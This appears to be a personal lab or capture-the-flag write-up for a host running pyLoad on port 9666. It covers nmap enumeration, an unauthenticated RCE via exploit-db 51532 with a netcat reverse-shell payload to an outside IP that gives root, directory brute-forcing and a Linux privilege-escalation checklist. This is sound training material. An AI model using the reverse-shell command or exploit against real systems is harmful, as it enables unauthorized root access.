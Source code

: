 ### Enumeration
```
IP=192.168.170.26
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p22,9666 -A $IP
```
### Ports 
- 22
	- OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
- 9666
	- CherryPy wsgiserver
	- Cheroot/8.6.0
### Foothold
- 9666
	- Default landing page
		- ![[Pasted image 20240714125709.png]]
	- Versions
		- pyload
			- checked github, tried few version docs, 404 resposne
			- A few unauthenticated RCE
				- exploit-db 51532
				- `python3 51532.py -u http://$IP:9666 -c 'busybox nc 192.168.45.195 22 -e /bin/bash'
				- Gives root shell
	- Directory Brute force
		- dirsearch -u http://$IP
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
### PE
#### Linux
- USERNAME
	- id
	- sudo -l
	- uname -a
	- getcap -r / 2>/dev/null
	- suid
		- find / -type f -perm -04000 -ls 2>/dev/null
	- Users with console
	- linpeas
### Lessons Learned
- Check google for versions